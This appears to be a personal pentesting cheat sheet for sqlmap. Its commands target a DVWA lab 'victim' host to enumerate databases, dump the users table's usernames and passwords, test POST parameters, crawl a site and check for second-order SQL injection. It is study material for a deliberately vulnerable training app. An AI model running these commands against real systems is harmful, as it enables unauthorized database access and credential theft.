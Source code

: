 ```yaml
---
Description: Tools used to automate the process of finding SQL injection vulnerabilities
URL: https://sqlmap.org/
---
```


![](../../zzz_res/attachments/sqlmap.png)

### Enumerating the DBMS

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" --dbs
```

### Dumping Tables, Columns and Data

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa --tables
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/?id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users -C user,password --dump
```

### Testing POST parameters

```bash
$ sqlmap -u "http://victim/vuln/vulnerabilities/sql_bind/" --data="id=1&Submit=Submit" --cookie="[valore_cookie]" -D dvwa  -T users --columns
```

### Automatic crawl and SQLi test

```bash
$ sqlmap -u "http://victim/.it" --crawl=1 --batch --threads=5
```

### Testing 2nd order SQL Injection

Save both injection and oracle HTTP requests and run:  

```bash
$ sqlmap -r injection.req --second-req=oracle.req --batch
```